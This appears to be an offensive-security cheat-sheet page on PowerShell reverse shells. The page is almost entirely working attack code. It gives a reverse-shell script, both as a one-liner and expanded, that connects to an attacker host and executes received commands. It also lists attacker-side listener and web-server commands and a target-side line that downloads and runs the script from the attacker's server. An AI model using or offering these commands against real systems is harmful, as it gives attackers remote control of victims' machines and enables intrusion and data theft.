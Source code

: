 # Powershell

## Powershell

### $ATTACKER

{% code title="rshell.ps1 \(one-liner\)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("$ATTACKER",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

{% code title="rshell.ps1 \(expanded\)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("$LHOST",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "# ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()};
$client.Close()
```
{% endcode %}

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
sudo ufw allow from $TARGET proto tcp to any port 80,443
```

### $TARGET

```bash
powershell IEX (New-Object Net.WebClient).DownloadString("http://$ATTACKER/rshell.ps1");
```

## Powercat



